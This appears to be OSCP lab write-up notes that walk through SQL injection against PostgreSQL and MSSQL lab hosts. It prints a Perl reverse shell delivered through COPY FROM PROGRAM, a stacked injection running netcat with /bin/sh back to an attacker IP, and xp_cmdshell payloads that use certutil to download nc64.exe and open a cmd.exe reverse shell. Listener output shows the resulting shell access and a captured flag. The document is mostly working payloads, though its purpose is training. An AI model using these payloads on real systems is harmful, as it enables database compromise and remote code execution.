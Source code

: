 ```
[!] 192.168.196.49:5432 - 192.168.196.49:5432 - Unable to execute query: COPY "M3cxTqWw" FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.45.180:3434");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};''';

[-] 192.168.196.49:5432 - Exploit Failed

[*] Exploit completed, but no session was created.


### Different way fially give the nc listener and flag. 
weight=11&height=';DROP TABLE IF EXISTS commandexec; CREATE TABLE commandexec(data text);COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -e /bin/sh 192.168.45.195 443';-- &age=24&gender=Male&email=test%40offsec.com

┌──(kali㉿kali)-[~/OSCP/10]
└─$ sudo nc -nvlp 443 
listening on [any] 443 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.244.49] 33430
id
uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
ls
base
global

pwd    
/var/www
cat flag.txt
OS{dd45d53961d8236a1983b01d0d40f8f1}

```

7. Follow these steps.
```
**Hint**

1) Test the username or password fields by adding a single quote('). If there's an error or strange behavior, it might indicate SQL injection. 2) Use time-based payloads to identify the database system. 3) Once the db system is known, look for specific vulnerabilities to gain further access. 4) For MSSQL, check and enable xp_cmdshell if necessary including advanced options.

1. Check out and figure out right location for sqli. 
a. found out login.aspx have two input field. 
b. Intercept request and then check out both section adding ' infront, found out username section is vulnerable. 
c. Check out right number of column with '' ORDER BY 2-- //', found out there are 2 column
d. Replace user name input with following commands. Make sure to url encode before using it and execute separately. 

';EXEC sp_configure 'show advanced options', 1;--
';RECONFIGURE;--
';EXEC sp_configure "xp_cmdshell", 1;--
';RECONFIGURE;--

Then you can try with nc64.exe as follows:

';EXEC xp_cmdshell "certutil -urlcache -f http://kali_ip/nc64.exe c:/windows/temp/nc64.exe";--
';EXEC xp_cmdshell "c:\windows\temp\nc64.exe kali.ip 4444 -e cmd.exe";-- (edited)

e. Revershell shell obtained. 
┌──(kali㉿kali)-[~/OSCP/10]
└─$ sudo nc -nvlp 4442
[sudo] password for kali: 
listening on [any] 4442 ...
```